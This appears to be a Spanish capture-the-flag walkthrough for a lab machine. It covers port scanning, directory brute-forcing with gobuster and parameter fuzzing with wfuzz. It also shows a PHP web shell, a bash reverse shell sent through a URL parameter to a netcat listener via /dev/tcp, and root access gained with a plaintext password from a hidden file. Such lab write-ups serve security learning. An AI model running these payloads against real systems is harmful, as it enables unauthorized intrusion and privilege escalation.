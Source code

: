 # Herramientas
- Nmap
- Gobuster
- SecLists
# Procedimiento
Escaneamos con nmap los puertos y nos muestra que solamente está habilitado el puerto 80.
![[Pasted image 20250716140218.png]]
Al entrar a la página nos aparece esto:
![[Pasted image 20250716140254.png]]

Si exploramos la página no vemos ningún comentario en el código, pero al inferior notamos esto:
![[Pasted image 20250716140338.png]]

Nos dirigimos a tmp pero no hay nada.
![[Pasted image 20250716140355.png]]

Empleamos la herramienta Gobuster para listar los directorios de la página web y nos encontramos con un `warning.html`. El comando utilizado es:
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.1  
7.0.2 -x .php,.py,.txt,.html
```
![[Pasted image 20250716140447.png]]
Al entrar en  `warning .html`, nos aparece esto:
![[Pasted image 20250716140558.png]]

Podemos suponer que `shell.php` luce así:
```php
<?php
	system($_GET['cmd]);
?>
```

Por lo que ejecutamos el siguiente comando para encontrar el parámetro requerido:
NOTA: `--hl=0` sirve para que no nos muestren los resultados que devuelven el número de líneas igual a 0.
```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http:  
//172.17.0.2/shell.php?FUZZ=id
```

Y logramos encontrar el parámetro (parameter, vaya vaya):
![[Pasted image 20250716141605.png]]

Al ingresar a esta parte nos muestra esto:
![[Pasted image 20250716141645.png]]

Nos ponemos en escucha por el puerto 443 con netcat:
```
nc -nlvp 443
```

Y en la URL vulnerable debe ir:
```
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"
```

Recordar que donde está `192.168.1.19` debemos poner nuestro propia IP, esto se consigue colocando `ip a` en la terminal (usualmente está en la interfaz wlan0 o eth0). Una vez hecho esto, conseguimos una reverse shell:
![[Pasted image 20250716142125.png]]Una vez hecho esto, podemos ir a la carpeta que se nos mostró en un inicio:
```
cd ~/tmp
ls -la
total 12  
drwxrwxrwt 1 root root 4096 Jul 16 17:59 .  
drwxr-xr-x 1 root root 4096 Jul 16 17:59 ..  
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt

cat .secret
contraseñaderoot123

su root

whoami
root
```

Y una vez más, hemos logrado hackear esta máquina y elevar nuestros privilegios :3
